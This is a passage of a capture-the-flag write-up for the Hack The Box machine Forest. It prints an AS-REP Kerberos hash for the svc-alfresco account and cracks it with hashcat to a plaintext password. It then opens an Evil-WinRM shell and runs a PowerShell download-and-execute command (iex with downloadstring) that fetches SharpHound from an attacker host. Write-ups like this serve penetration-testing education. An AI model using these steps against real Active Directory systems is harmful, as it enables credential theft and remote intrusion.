 ```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:ba242daa768033daa8d52fbea9914282$f3c10938c94b29b243b4c4db6482314dc0a9f04f3316274abc521a918d5922c52995c295737ee759ff51e556b6fdaad5f78237aea1780b1bd6be913af8a156f09ff3a29f5a907354bda059e5b4b0ca40d963436454e202757023c994f9f15be6f38fd378091a62ee04bb93e001cbf056386fd84f2c12fa1e8107ca677c411273c5526ae22a22c11883d8f7c87df25127fe556a6f056003e4532a20721d9635634e4b324c56de9d6f25e6ff8378ebeb2fe3bc4e7dc72e6ac109d59d9f8749feb31fd66f5f222808cba0d555c499417e93c8cd1b3fd6effca4da0c476e8fed0d9f0b11bec1fcd9
```
I got account of `svc-alfresco`, which I known is valid account thanks to enum4linux. I passed hashed to hashcat...

```
hashcat -m 18200 svc-alfresco_hash /usr/share/wordlists/rockyou.txt 

[snip..]

$krb5asrep$23$svc-alfresco@HTB.LOCAL:34e01c116a812eef1081b7c3cbdc1915$29ab306d2d992f99dd2e44f73478fe7941261ea15211407a86eb2c948b00f55a30329e283adc5a15dd2525d8c66438b995c34e4f82c85d917ae5ed3dee86c29ad5b53248fa3819943bb6521df7ab212f6b59fdf1882826eb0af0b5892c6d1cae72959e4b42697de7894eba49062f765c4c3f7916925c879d238ceb4cc448a0065442374e7d00f198515b7d451cdaec3013b074a505abdd49557dd46a091a38b4477ba4185718193eaaffede211226faa0d1f7803e497f0b5209344e3166a105958fbfbb2a81b6a35546afa757ad942529e3aa9ac995de786a008b34d62fc915bc277476c3380:s3rvice
```
Hashcat creacked password. I was exited and try to connect directly via `winrm`

```
./evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice                

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ls ../Desktop


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       12/17/2021  10:41 PM             34 user.txt

```

I was in! As this is active directory enviroment i decide to run bloodhound. You can install bloodhound into kali with this simple command `apt instal bloodhound`. Bloodhound require collectors to by able to accquire all data from AD.I used [powershell](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1) one.  

```powershell
*Evil-WinRM* PS C:\programdata> iex(new-object net.webclient).downloadstring('http://10.10.14.7/SharpHound.ps1')
*Evil-WinRM* PS C:\programdata> invoke-bloodhound
*Evil-WinRM* PS C:\programdata> ls


    Directory: C:\programdata


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d---s-       11/20/2016   6:36 PM                Microsoft
d-----        9/22/2019   4:56 PM                Package Cache
d-----        9/18/2019  10:08 AM                regid.1991-06.com.microsoft
d-----        7/16/2016   6:18 AM                SoftwareDistribution
d-----       11/20/2016   6:19 PM                USOPrivate
d-----       11/20/2016   6:19 PM                USOShared
```
